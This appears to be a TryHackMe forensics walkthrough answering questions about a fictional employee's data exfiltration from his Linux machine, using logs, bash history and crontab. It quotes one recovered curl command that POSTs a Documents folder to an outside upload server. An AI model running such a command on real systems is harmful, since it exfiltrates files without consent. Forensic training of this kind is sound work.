







# ExifileNode
Continue hunting for the exfiltration footprints in the ex-employee's personal workstation.

## Quick Overview
[TryHackMe room](https://tryhackme.com/room/exfilnode) on disk forensic, medium level.

The analysis of Liam's company-provided Windows workstation in the DiskFiltration room revealed major evidence of his involvement in the TECH THM's data exfiltration. However, he could argue that he was framed as he did not own the workstation. So, to uncover the whole truth and gather all the possible undeniable evidence, the investigators turned their attention to Liam's personal workstation (Linux machine), which was suspected to have played a key role in handling the exfiltrated data.

As this was Liam's personal workstation, he had full control over covering his tracks more effectively. But was he careful enough? It seems like the investigators not only revealed more about the external entity Liam worked with but also exposed a betrayal: Liam was double-crossed.

Tool used :
- Linux commands / Tools
- Autopsy (Favorite tool)

## Questions 
### When did Liam last logged into the system? (Format: YYYY-MM-DD HH:MM:SS)

We can find a lot of various informations, but I prefer to look at the auth.log (`/var/log/auth.log`) file :

### What was the timezone of Liam's device ?

We can take a look at `/etc/timezone` in order to find it : \
-> America/Toronto

### What is the serial number of the USB that was inserted by Liam ?

We can parse the syslog file with `cat /var/log/syslog` and check for `| grep "usb"` infos.

### When was the USB connected to the system ?
On the same file, with our grep, we can find the proper UTC time of the connection.

### What command was executed when Liam ran "transferfiles" ?
I could see that the user run the command but couldn't fint the binary. So we can check with grep :

So Liam transfer a file from the USB plugged before, in the his Documents directory.

### What command did Liam execute to transfer the exfiltrated files to an external server ?
Here, we can take à closer look a `.bash_history` in order to see what the user did `curl -X POST -d @/home/liam/Documents Data http[://]tehc-thm.thm/upload`

### What is the IP address of the domain to which Liam transferred the files to?
In the `/etc/hosts` file, we can find 
`5.45.102.93 tehc-thm.thm`

### What was the amount in USD that henry had to give Liam for his exfiltration task?
We can find the "letter" in Liam home, 

### When was the USB disconnected by Liam ? 
Let's go back to `/var/log/syslog` and we can find any information about the USB :
`2025-02-28T11:44:00.456653-05:00 Liam-PC kernel: usb 1-1: USB disconnect, device number 2`

### There is a .hidden/ folder tat Liam listed the content of in his commands. 
The folder is located on the Public/ folder in Liam home.

### Which files are likely timestomped in this .hidden directory

We can see that two files are from 2001 & 2017, `stat` help us understand 

### Liam thought the work was done, but the external entity had other plans. Which IP address was connected via SSH to Liam's machine a few hours after the exfiltration? 

If you can't cat & grep, you can grep all the way. `Accepted` mean that someone logged in via SSH. Here we can have all the necessary informations.

### Which cronjob did the external entity set up inside Liam’s machine?

We'll go to `/var/spool/cron/crontab` and take a close look at the crontab for the user liam 

